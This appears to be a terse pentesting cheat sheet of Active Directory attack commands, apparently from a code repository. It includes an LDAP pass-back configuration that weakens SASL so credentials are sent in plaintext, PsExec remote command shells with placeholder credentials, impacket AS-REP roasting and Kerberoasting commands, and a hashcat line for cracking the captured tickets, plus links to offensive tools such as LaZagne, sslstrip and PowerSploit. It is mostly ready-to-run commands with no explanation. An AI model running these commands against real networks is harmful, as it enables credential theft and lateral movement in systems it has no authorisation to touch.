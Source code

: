 # LDAP Pass-back Attacks
```zsh
$ sudo dpkg-reconfigure -p low slapd
```
- olcSaslSecProps.ldif
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

# Seatbelt
tag: scan
https://github.com/GhostPack/Seatbelt

# Lazagne
tag: scan

# sslstrip
https://github.com/moxie0/sslstrip

# PowerSploit
https://github.com/PowerShellMafia/PowerSploit

# PsExec
```powershell
PS> psexec64.exe \\MACHINE_IP -u TestAdminUser -p TestAdminPassword -i cmd.exe
PS> psexec64.exe -i \\TestHost -u hoge\TestUser -p TestPassword cmd.exe
# after overpass the hash
PS> PsExec.exe \\TargetHost cmd
```



# impacket
## GetNPUsers.py
tag: AS-REP Roast
```zsh
$ GetNPUsers.py -dc-host hoge.com -usersfile ./valid_userlist.txt hoge.com/ | tee output_GetNPUsers.ans
$ GetNPUsers.py -dc-host hoge.com -usersfile ./valid_userlist.txt -outputfile ./output_GetNPUsers.txt hoge.com/
```
## GetUserSPNs.py
tag: Keberoast
```zsh
$ GetUserSPNs.py -dc-ip 172.16.0.10 HOGE.local/piyo
$ GetUserSPNs.py -dc-ip 172.16.0.10 HOGE.local/piyo -request
$ GetUserSPNs.py -dc-ip 172.16.0.10 HOGE.local/piyo –request-user TestUser
$ GetUserSPNs.py -dc-ip 172.16.0.10 HOGE.local/piyo –request-user TestUser -outputfile TestUser_tgs
$ GetUserSPNs.py HOGE.local/TestUser:TestPassword -dc-ip XXX.XXX.XXX.XXX -request -outputfile GetUserSPNs-py_hashcat.txt
# -> Hashcat
##$ hashcat -m 13100 TestUser_tgs /usr/share/wordlists/rockyou.txt 
```